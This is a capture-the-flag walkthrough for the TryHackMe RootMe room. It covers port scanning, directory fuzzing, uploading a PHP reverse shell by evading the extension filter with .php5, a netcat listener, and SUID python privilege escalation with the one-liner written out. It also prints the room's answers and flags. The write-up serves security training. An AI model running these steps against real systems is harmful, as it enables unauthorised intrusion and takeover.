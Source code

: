 # RootMe CTF Walkthrough

In this walkthrough, I will demonstrate how I completed the RootMe challenge on TryHackMe.

Victim: 10.10.116.177


I began by scanning the target machine using `nmap`. I included the `-sV` switch to identify service versions, which helped me answer the first three questions in one go.

```
nmap -sC -sV 10.10.116.177
```

![1. First nmap scan](/images/TryHackMe/RootMe/1_nmap_first.png)

^Question^: Scan the machine, how many ports are open?

Answer: 2

Question: What version of Apache is running?

Answer: 2.4.29

Question: What service is running on port 22?

Answer: SSH


I discovered two running services on ports `22` which is SSH and `80` which is http server. Since SSH is usually not the first attack vector in CTF challenges, I focused on the web server. Upon visiting the website, I found a simple page with no immediately interesting content.

![2. Website](/images/TryHackMe/RootMe/2_website.png)

To discover hidden resources, I used `ffuf`, adding the `-e` switch to include potential `.php` files.

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.116.177/FUZZ -e php
```

![3. Discovered directories](/images/TryHackMe/RootMe/3_discovered_directories.png)

The scan uncovered nine resources, though some returned `403 Forbidden` errors. The most interesting ones were:

*`/panel`
*`/uploads`


Question: What is the hidden directory?

Answer: /panel/


Navigating to `/panel/`, I found an upload page.

![4. Panel directory](/images/TryHackMe/RootMe/4_panel_directory.png)

Additionally, the `/uploads/` directory listed files uploaded to the web server.

![5. Uploads directory](/images/TryHackMe/RootMe/5_uploads_directory.png)


To gain a foothold, I used a PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), saving it as `shell.php`. After modifying it to connect back to my machine on port `4444`, I attempted an upload. However, a restriction prevented `.php` files from being uploaded.

![6. Extension php not allowed](/images/TryHackMe/RootMe/6_php_extension_not_allowed.png)


To bypass this filter, I tried different extensions for PHP files. The extension `.php5` successfully bypassed the restriction, allowing me to upload `shell.php5`.

![7. Extension php5 allowed](/images/TryHackMe/RootMe/7_php5_extension_allowed.png)


I then set up a netcat listener on my machine:.

```
nc -nlvp 4444
```

Next, I accessed the `/uploads/` directory and executed `shell.php5` by clicking on it. This triggered the reverse shell, giving me access to the target machine as the `www-data` user.

![8. Revere shell](/images/TryHackMe/RootMe/8_reverse_shell.png)


With shell access, I used the `find` command to locate the `user.txt` flag:

```
find / -name “user.txt” 2>/dev/null
```

The flag was located in `/var/www/user.txt`.

![9. User flag](/images/TryHackMe/RootMe/9_user_flag.png)


Question: user.txt

Answer: THM{y0u_g0t_a_sh3ll}


To escalate privileges, I searched for binaries with the SUID bit set:

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Among the results, `/usr/bin/python` stood out as a potential privilege escalation vector. Using[GTFObins](https://gtfobins.github.io/), I leveraged it to escalate to root:

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![10. Root privilege](/images/TryHackMe/RootMe/10_root_privilege.png)


Once root access was obtained, I searched for `root.txt`:

```
find / -name “root.txt”
```

The flag was found in `/root/root.txt`, which I read using `cat`.

![11. Root flag](/images/TryHackMe/RootMe/11_root_flag.png)


Question: root.txt

Answer: THM{pr1v1l3g3_3sc4l4t10n}
